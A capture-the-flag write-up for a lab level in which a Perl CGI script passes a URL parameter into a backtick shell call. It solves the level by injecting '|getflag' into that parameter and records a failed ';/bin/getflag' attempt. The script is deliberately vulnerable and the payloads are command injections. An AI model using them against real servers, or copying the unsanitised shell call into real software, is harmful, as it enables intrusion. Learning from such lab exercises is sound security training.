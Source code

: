 # Level04
## Description
The level 04 user has a file **level04.pl**,  which user is `flag04`.
The .pl mean perl language , the perl code is also on localhost:4747.

```perl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

## Solution
- We need to use the subfunction x to execute `getflag`.<br>
  We can set arguments in the URL as `http://192.168.56.3:4747/level04.pl?x=`**blabla**.

- We change the value of x as **`http://192.168.56.3:4747/level04.pl?x=|getflag`** which execute `echo |getflag 2>&1`.

- The flag is write in the body of the website.

![Website picture](level04_1.png)

### Dead end
- Use `./level04.pl x=;/bin/getflag` doesn't give the flag.
